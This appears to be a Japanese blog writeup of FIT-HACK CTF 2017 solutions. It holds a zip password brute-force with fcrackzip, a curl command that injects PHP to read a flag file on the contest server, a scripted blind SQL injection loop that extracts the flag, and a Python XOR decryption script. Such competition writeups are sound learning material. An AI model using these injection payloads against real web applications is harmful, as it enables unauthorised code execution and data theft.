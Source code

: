```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2017/fit-hack-ctf-2017/
  - /blog/2017/04/22/fit-hack-ctf-2017/
date: "2017-04-22T01:04:40+09:00"
tags: [ "ctf", "writeup", "fit-hack-ctf", "guessing" ]
"target_url": [ "https://ctftime.org/event/451" ]
---
```


# FIT-HACK CTF 2017

cryptoはかなりのguessing CTFだった。

-   前処理: <https://twitter.com/elliptic_shiho/status/852779435983986691>
-   it's\_solvable: <https://rawsec.ml/en/FIT-HACK-2017-write-ups/#100-it-s-solvable-crypto>
-   bignumber: <https://twitter.com/_n_ari/status/852777396302299136>

## flag

```
$ fcrackzip -u -l 0-4 flag.zip


PASSWORD FOUND!!!!: pw == 1864
fcrackzip -u -l 0-4 flag.zip  5.96s user 5.98s system 6% cpu 3:14.71 total
```

## Sorry

HTMLとしてinjectionできるなあと思っていたらphpとしてinjectionできていた。

``` sh
$ curl https://sorry.problem.ctf.nw.fit.ac.jp/in.php -F etc=$' <?php\necho `cat /var/tmp/flag`;\n?>'
FIT{fdsa__dasdas_32fa}
FIT{fdsa__dasdas_32fa} <?php
echo `cat /var/tmp/flag`;
?>:mail@example.com <br>Saved it thank you!!



```

## Let's login

SQLi

```
$ s=9n89_ ; while true ; do for c in `seq 0 9` `alpha` _ ; do echo $s$c ; if curl -s https://login.problem.ctf.nw.fit.ac.jp/login.php -F name=name -F pass="' union select name, pass from user where pass like 'FIT{$s$c%' -- " | grep mes1 ; then s=$s$c ; break ; fi ; done ; done
```

`FIT{9n89_y0u3u_9a811}`

## simple cipher

普通に逆関数を書くだけ

``` python
#!/usr/bin/env python3
import binascii
enc_mes = '0c157e2b7f7b515e075b391f143200080a00050316322b272e0d525017562e73183e3a0d564f6718'
key = 'J2msBeG8'

m = list(binascii.unhexlify(enc_mes))

mes = [ None ] * len(m)
j = 0
for a in range(len(key)):
    i = a
    for b in range(len(m) // len(key)):
        mes[i] = chr(m[j] ^ ord(key[a]))
        j += 1
        i += len(key)
mes = ''.join(mes).rstrip()

print(mes)
```
